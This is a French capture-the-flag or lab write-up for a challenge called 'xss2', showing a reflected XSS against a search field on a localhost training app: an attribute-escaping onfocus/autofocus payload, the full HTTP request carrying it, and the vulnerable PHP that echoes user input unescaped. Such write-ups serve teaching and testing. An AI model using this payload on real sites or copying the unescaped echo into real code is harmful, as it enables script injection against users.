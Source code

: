 # xss2

## Exploitation

Le second challenge propose une fonctionnalité de recherche :&#x20;

![](../../../.gitbook/assets/image.png)

Lorsque je renseigne un mot clé, il n'est pas réfléchi dans le message d'erreur mais est présent en tant que valeur du champ de recherche :&#x20;

![](<../../../.gitbook/assets/image (12).png>)

`value` est un attribut HTML safe, l'injection ne peut se faire directement. Je vais donc préparer ma payload afin de m'échapper de cet attribut puis forger mon attaque. Il y a plusieurs solutions ici mais je choisis de passer par un autofocus `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss2/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss2/
Upgrade-Insecure-Requests: 1

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+plop%3D%22&submit=Envoyer
```

![](<../../../.gitbook/assets/image (4).png>)

## Analyse du code source

La valeur du paramètre `$keyword`, récupérée depuis la variable `$_POST['search']` est affichée directement grâce à la directive `echo` en tant que valeur de l'attribut HTML `value`. Aucune protection étant en place, l'injection est donc évidente :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }
?>

<input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo $keyword; }?>"
```
